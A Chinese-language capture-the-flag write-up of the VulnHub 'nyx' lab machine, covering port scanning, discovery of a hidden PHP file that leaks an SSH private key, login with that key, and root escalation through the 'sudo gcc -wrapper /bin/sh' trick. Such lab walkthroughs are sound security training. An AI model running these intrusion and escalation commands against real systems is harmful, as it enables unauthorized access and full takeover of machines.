 # 靶机信息
 nyx是vulnhub中的一台容易类型的CTF类型靶机

# 信息收集
```
┌──(kali㉿kali)-[~]
└─$ nmap -sT --min-rate 10000 -p- 192.168.218.204  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-22 03:17 EDT
Nmap scan report for 192.168.218.204 (192.168.218.204)
Host is up (0.00045s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:52:69:55 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds
```
只开放了两个端口，直接看web服务

# WEB信息枚举
打开网页，查看源代码

<img width="1917" height="724" alt="Image" src="https://github.com/user-attachments/assets/5af37f43-d7e5-42d4-9d28-6b7919910b9a" />

没提示，扫一下目录
扫到一个 key.php 
进去看一下

<img width="1919" height="804" alt="Image" src="https://github.com/user-attachments/assets/18af4b5d-d50f-48fb-a6f6-a6768c45d563" />

有一个输入框，需要 key 值，但是找了一会没有什么发现，发现输入 root 和 admin 有不一样的回显但是之后又没思路了，由于之前扫描的时候只扫了tcp，想着是简单机器就没继续扫了，后面卡了很久，然后无聊就重新跟进了一遍流程在使用 nmap 的 vuln 脚本扫描的时候，还真新扫出来了一个文件，d41d8cd98f00b204e9800998ecf8427e.php 以空字符的 MD5 值作为文件名
访问就拿到了私钥，然后生成公钥

```
┌──(kali㉿kali)-[~/…/stageOne/writeup/vulnhub/nyx]
└─$ ssh-keygen -y -f ssh_pri.key
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDtP3hOZuqJGVzqMaHpQ4rIpW7H5tiiyQB07Ju2AJ+iHTrgJMctMxMc2ddYjyxPUyXX2y+9UadlkqYNNtL/u46mCya87SmaqKsJWjRS8PRiEpdUTCRO2ZS88E8Be5wZG158lwK0tadJzjIy3NtjNJgS6W1RbkR+qpPB+OHjx/G8uTX+TOc7sSSfGksy6l/qEnM1sYsttHAg14iN0LSTqIx0ytnefnwKGjeSKA0pKpzIGmR48T5G+cIF6C3EFf+bWlSM+NgpjN1nQNE5DJTe3ta7qJfhNbrzxp0eMCBc/sRE3S0vpGgkH28fE7UaYa3kIugkFg0PW4uhNF6nvGQg/DCD mpampis@nyx
```

然后登录
```
┌──(kali㉿kali)-[~/…/stageOne/writeup/vulnhub/nyx]
└─$ ssh -i ssh_pri.key mpampis@192.168.218.204
```

# 提权
```
mpampis@nyx:~$ sudo -l
Matching Defaults entries for mpampis on nyx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mpampis may run the following commands on nyx:
    (root) NOPASSWD: /usr/bin/gcc
mpampis@nyx:~$ 
```
我这里参考的 [GCC](https://gtfobins.github.io/gtfobins/gcc/) 这个网站，十分推荐。

```
mpampis@nyx:~$ sudo gcc -wrapper /bin/sh,-s .
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
提权很简单

# 反思
靶机很简单，但是找入口不容易，本来之前都会进行vuln，恰好今天懒了，没有扫描导致，在入口的地方卡了很久。